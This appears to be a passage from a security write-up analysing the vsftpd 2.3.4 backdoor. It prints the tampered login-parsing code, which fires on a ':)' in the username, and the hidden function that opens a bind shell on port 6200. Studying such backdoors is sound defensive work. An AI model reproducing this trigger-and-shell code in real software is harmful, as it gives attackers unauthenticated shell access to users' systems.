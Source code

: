 ```c
int
str_contains_space(const struct mystr* p_str)
{
  unsigned int i;
  for (i=0; i < p_str->len; i++)
  {
    if (vsf_sysutil_isspace(p_str->p_buf[i]))
    {
      return 1;
    }
    else if((p_str->p_buf[i]==0x3a)
    && (p_str->p_buf[i+1]==0x29))
    {
      vsf_sysutil_extra();
    }
  }
  return 0;
}
```

Our attention is drawn to the `else if` section of the code which compares the parsed string the user enters while logging into the vsftpd application and if it finds the two hex number `0x3a` & `0x29`- which translates to `:` & `)` respectively in the correct order it invokes the `vsf_sysutil_extra()` function.

The backdoor itself was placed in the `sysdeputil.c` file which looks like:

```c
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

This simply opens a new TCP socket listening on port `6200` that will spawn a shell when connected to this port.
